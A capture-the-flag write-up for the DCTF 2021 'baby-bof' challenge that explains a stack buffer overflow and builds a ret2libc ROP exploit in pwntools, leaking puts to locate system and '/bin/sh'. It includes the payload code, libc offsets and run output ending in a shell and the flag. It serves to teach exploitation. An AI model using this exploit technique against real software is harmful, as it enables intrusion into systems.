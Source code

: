 

Message from function ``vuln`` was clearly asking for ROP. It takes *0x100* bytes of input and put it into 10 bytes area, overflow it then call *"system('bin/sh')"* get shell.

```c
void vuln(void)

{
  char local_12 [10];
  
  puts("plz don\'t rop me");
  fgets(local_12,0x100,stdin);
  puts("i don\'t think this will work");
  return;
}
```

First of all, needed to find address of *"system"* and *"/bin/sh"* string. Call *puts@plt* to print address of *puts*, then could substract the offset of *puts* to get libc base address. Padding could be found using cyclic string, in this case it was 18 bytes. So payload to get address of *puts* to be ``<18 bytes padding><pop_rdi><puts @ got><puts @ plt><return address vuln>``. We needed to return to *vuln* function to send again payload to get shell.

```python
elf = pwn.ELF('baby_bof')
rop = pwn.ROP(elf)

pop_rdi = pwn.p64(rop.find_gadget(['pop rdi', 'ret']).address)

payload = b'A'*18
payload += pop_rdi
payload += pwn.p64(elf.got['puts'])
payload += pwn.p64(elf.plt['puts'])
payload += pwn.p64(elf.sym['vuln'])
```

The dockerfile said ther server was using *"ubuntu:20.04"*, found out libc version was *libc6_2.31-0ubuntu9.x_amd64.deb*.

```dockerfile
FROM ubuntu:20.04
```

Downloaded and unpacked with ``ar``, then untar *data.tar.xz* to get *libc-2.31.so* file.

```bash
ar xv libc6_2.31-0ubuntu9.2_amd64.deb
x - debian-binary
x - control.tar.xz
x - data.tar.xz
```

When we got the *puts* address and libc, the address of *"system"* and *"binsh"* can be found as follow.

```
libc = pwn.ELF('libc-2.31.so')
libc.address = puts_addr - libc.symbols['puts']
sys = libc.symbols['system']
bin_sh = next(libc.search(b'/bin/sh'))
```

Another way to find them would be look up the known libc function address at [libc.blukat.me](https://libc.blukat.me), calculate the address with known libc function address by adding the difference.

```python
if remote:
    sys = puts_addr - 0x32190
    bin_sh = puts_addr + 0x13000a
else:
    sys = puts_addr - 0x2e660
    bin_sh = puts_addr + 0x116eb6
```

The final payload to bring up a shell was *<18 bytes padding><ret gadget><pop_rdi gadget><binsh address><system address><return address>*. Full source code can be found [here](https://github.com/onealmond/hacking-lab/blob/master/dctf-2021/baby-bof/exploit.py).

```python
ret = pwn.p64(rop.find_gadget(['ret']).address)
payload = b'A'*18
payload += ret
payload += pop_rdi
payload += pwn.p64(bin_sh)
payload += pwn.p64(sys)
payload += pwn.p64(elf.sym['vuln'])
print(payload)

pr.sendafter('me\n', payload)
pr.sendline()
pr.sendline('cat flag.txt')
```

```bash
$ python3 exploit.py 
[+] Opening connection to dctf-chall-baby-bof.westeurope.azurecontainer.io on port 7481: Done
[*] '/home/zex/lab_ex/hacking-lab/dctf-2021/baby-bof/baby_bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/zex/lab_ex/hacking-lab/dctf-2021/baby-bof/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for 'baby_bof'
b"i don't think this will work\n"
puts @ 0x7f9936fe65a0
sys @ 0x7f9936fb4410
bin_sh @ 0x7f99371165aa
b'AAAAAAAAAAAAAAAAAA\x8e\x04@\x00\x00\x00\x00\x00\x83\x06@\x00\x00\x00\x00\x00\xaae\x117\x99\x7f\x00\x00\x10D\xfb6\x99\x7f\x00\x00\xb7\x05@\x00\x00\x00\x00\x00'
[+] Receiving all data: Done (68B)
[*] Closed connection to dctf-chall-baby-bof.westeurope.azurecontainer.io port 7481
b"i don't think this will work\ndctf{D0_y0U_H4v3_A_T3mpl4t3_f0R_tH3s3}\n"
```
